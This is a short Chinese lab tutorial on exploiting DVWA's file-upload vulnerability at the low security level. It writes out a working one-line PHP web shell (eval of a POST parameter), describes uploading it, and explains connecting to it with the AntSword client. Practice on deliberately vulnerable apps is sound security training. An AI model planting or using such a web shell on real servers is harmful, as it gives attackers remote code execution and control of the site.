 ### 基本流程

新建文件 shell.php，输入如下代码：

其中 pwd 就是我们后续用蚁剑链接网站的密码，请记住！

```php
<?php
@eval($_POST['pwd'])
    ?>
```

<br>

DVWA 文件上传漏洞，上传一句话木马（low 模式下）

开启中国蚁剑，右键空白位置，选择“添加数据”；  
按下图填入信息即可，连接密码就是我们刚刚写上的 pwd

![](../imgs/others/vulo.png)

> good!你已经成功连接到网站了

<br>
